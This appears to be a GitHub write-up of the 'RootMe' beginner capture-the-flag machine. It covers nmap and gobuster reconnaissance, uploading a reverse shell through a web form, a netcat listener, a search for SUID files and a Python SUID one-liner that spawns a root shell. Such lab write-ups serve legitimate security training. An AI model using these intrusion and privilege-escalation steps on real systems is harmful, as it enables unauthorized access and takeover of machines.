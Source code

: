 # RootMe

A CTF for beginners, can you root me?

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

```
export IP=10.10.234.161
```

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	```
	nmap -sV $IP | tee -a nmap-default.txt
	```

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	```
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt
	```

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		```
		nc -nvlp 8888
		```

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-find](./images/task4-find.png)

* root.txt

	```
	/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```

	![task4-root-txt](./images/task4-root-txt.png)



